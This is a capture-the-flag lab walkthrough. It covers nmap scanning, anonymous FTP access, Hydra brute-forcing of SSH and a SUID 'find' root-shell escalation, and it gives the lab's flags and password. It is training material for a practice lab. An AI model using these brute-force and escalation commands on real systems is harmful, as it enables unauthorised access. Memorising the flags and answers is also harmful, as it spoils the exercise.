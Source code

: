 ## Easy Lab - Complete Walkthrough

This document outlines the intended solution path for the Easy Lab.

### 1. Enumeration & Flag 1

* **Action:** Perform a network scan on the target IP address.
    ```bash
    nmap -sC -sV <TARGET_IP>
    ```
* **Result:** The scan reveals that port 21 (FTP) is open and allows anonymous login.
* **Action:** Log into the FTP server.
    ```bash
    ftp <TARGET_IP>
    # User: anonymous
    # Pass: (blank)
    ```
* **Result:** List the files with `ls`. You will see `FLAG_ENUM.txt`. Download it with `get FLAG_ENUM.txt`.
* **Flag 1:** `OmahTIAcademy{enum_flag_from_ftp_file}`

### 2. Initial Access & Flag 2

* **Action:** While on the FTP server, download the other files:`note.txt`, and `wordlist.txt`.
* **Clues:** The `note.txt` file gives the username `easyuser`, and `wordlist.txt` provides a short list of passwords.
* **Action:** Use Hydra to brute-force the SSH service with the discovered information.
    ```bash
    hydra -l easyuser -P wordlist.txt <TARGET_IP> ssh
    ```
* **Result:** Hydra will find the password `R3sistance`.
* **Action:** Log into the machine via SSH.
    ```bash
    ssh easyuser@<TARGET_IP>
    ```
* **Action:** After the ssh into easyuser, we'll open the flag2.txt there and obtain the flag using the 'cat' command.
* **Flag 2:** `OmahTIAcademy{Easy_ssh_flag}`

### 3. Privilege Escalation & Flag 3

* **Action:** Once on the machine, enumerate for privilege escalation vectors. A common manual check is for SUID binaries.
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
* **Result:** The output will show `/usr/bin/find` has the SUID bit set.
* **Action:** Use the command from GTFOBins to exploit this misconfiguration.
    ```bash
    /usr/bin/find . -exec /bin/sh -p \; -quit
    ```
* **Result:** You will gain a root shell.
* **Flag 3:** Navigate to the root directory and read the final flag.
    ```bash
    cat /root/flag3.txt
    ```
